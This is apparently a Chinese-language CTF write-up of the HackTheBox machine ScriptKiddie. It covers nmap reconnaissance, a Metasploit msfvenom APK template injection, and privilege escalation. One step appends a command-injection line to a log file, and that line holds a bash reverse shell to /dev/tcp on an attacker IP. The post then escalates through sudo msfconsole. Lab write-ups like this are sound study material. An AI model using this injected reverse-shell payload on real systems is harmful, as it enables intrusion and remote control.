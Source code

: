 ```yaml
---
layout:     post
title:      HackTheBox ScriptKiddie
subtitle:   HackTheBox
date:       2021-06-03
author:     heria
header-img: img/post-bg-025.jpeg
catalog: true
tags:
---
```




![image-20210602135312485](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210602135312485.png)

## 信息收集

```
nmap -sS -sV -sC 10.10.10.226
```

![image-20210602135220189](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210602135220189.png)

查找Werkzeug对应漏洞并无发现

## 渗透

查看5000端口

![image-20210602135441749](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210602135441749.png)

nmap 模块尝试扫描127.0.0.1，出现如下结果

![image-20210602135549231](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210602135549231.png)

使用Google和exploit-db搜索该版本漏洞未发现可GetShell的漏洞。使用Google和exploit-db搜索venom漏洞发现APK模板命令注入漏洞

![image-20210602141451826](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210602141451826.png)

提供了exp,但是msf下面也有相同的利用模块

![image-20210602145551516](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210602145551516.png)

show options 设置下面的参数，exploit之后会生成一个apk文件

![image-20210602150625451](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210602150625451.png)

之后kali开启监听，将apk文件上传

![image-20210602150806607](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210602150806607.png)

能够接收到shell，此时通过以下语句开启交互模式

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![image-20210602150738425](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210602150738425.png)

找到user.txt获取到第一个flag

![image-20210602151041741](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210602151041741.png)



## 提权

在/etc/passwd下面找到另外一个可登录用户pwn

![image-20210602152814992](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210602152814992.png)

之后在该用户目录下发现如下脚本

![image-20210602153832155](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210602153832155.png)

该shell脚本未对hackers文件传入的内容做过滤，且/home/kid/logs/hackers文件当前用户kid可编辑，因此写入如下语句

```
echo "test  ;/bin/bash -c 'bash -i >&/dev/tcp/10.10.14.2/8888 0>&1' #" >> hackers
```

脚本中语句会对该文件做处理，最终会拼接语句，达到利用的目的

![image-20210602165742018](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210602165742018.png)

之后先开启8888端口，之后写入语句

![image-20210602164806081](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210602164806081.png)

拿到pwn的shell，sudo -l查看可执行的命令

![image-20210602164748123](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210602164748123.png)

直接执行，运行msf

```
sudo /opt/metasploit-framework-6.0.9/msfconsole
```

![image-20210602164530024](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210602164530024.png)

找到root.txt 拿到第二个flag

![image-20210602164708184](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210602164708184.png)

